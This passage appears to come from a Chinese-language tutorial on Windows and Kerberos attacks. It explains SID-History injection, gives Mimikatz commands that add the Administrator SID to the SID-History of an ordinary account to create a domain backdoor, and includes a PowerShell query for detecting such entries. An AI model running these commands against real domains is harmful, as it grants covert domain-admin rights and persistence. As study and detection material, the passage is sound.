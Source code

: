 

**这种攻击手段一般利用在制作SID-History后门以及林内横向移动上**



##### 利用过程

> Mimikatz允许向用户账户注入SID-History( **需要域管理员权限或者其他同等权限，一般在DC上做林信任攻击** )

举个例子，攻击者创建了普通用户账户"n0b1ta"，并且将域管理员账户"Administrator"(RID为500)账户的SID注入进n0b1ta的SID-History

```powershell
#mimikatz 2.1版本前
./mimikatz "privilege::debug" "misc::addsid n0b1ta Administrator"

#mimikatz2.1版本后
./mimikatz "privilege::debug" "sid::patch" "sid::add /sam:n0b1ta /new:administrator"
```

![image.png](../assets/2021-09-01-%E6%B7%B1%E5%85%A5%E4%BA%86%E8%A7%A3Kerberos&Windows%E8%AE%A4%E8%AF%81%E6%94%BB%E5%87%BB/image-0d8bf160eab34ec1a171416b46212ae0.png)



检测同域内的SID-History

```powershell
Import-Module ActiveDirectory
[string]$DomainSID = ( (Get-ADDomain).DomainSID.Value )
Get-ADUser -Filter "SIDHistory -Like '*'" -Properties SIDHistory | `
Where {$_.SIDHistory -Like "$DomainSID-*"}
```

![image.png](../assets/2021-09-01-%E6%B7%B1%E5%85%A5%E4%BA%86%E8%A7%A3Kerberos&Windows%E8%AE%A4%E8%AF%81%E6%94%BB%E5%87%BB/image-74f1cbf455f04cc09387537472010bf9.png)
